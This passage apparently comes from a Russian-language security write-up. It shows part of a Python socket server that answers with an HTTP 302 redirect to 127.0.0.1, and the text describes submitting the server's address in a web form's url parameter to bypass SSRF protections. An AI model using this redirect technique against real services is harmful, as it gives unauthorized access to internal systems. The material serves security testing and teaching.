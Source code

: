 ```python
                    break

                response_body = ""

                response_header = (
                    "HTTP/1.1 302 FOUND\r\n"
                    "Content-type: text/plain\r\n"
                    "Location: http://127.0.0.1:8000\r\n"
                    f"Content-Lenght: {len(response_body)}\r\n"
                    "Connection: close\r\n"
                    "\r\n"
                )

                conn.sendall(response_header.encode('utf-8') + response_body.encode('utf-8'))
    except KeyboardInterrupt:
        print("\nServer is shutting down...")
        s.close()
        exit(1)
```

Запускаем сервер и указываем его адрес в форме обратной связи в параметре ```url=http://84.201.157.244:5000```, для тестирования байпасса **SSRF** попробуем указать ```Location:``` на ```http://ya.ru```

![](img/img12.png)

![](img/img13.png)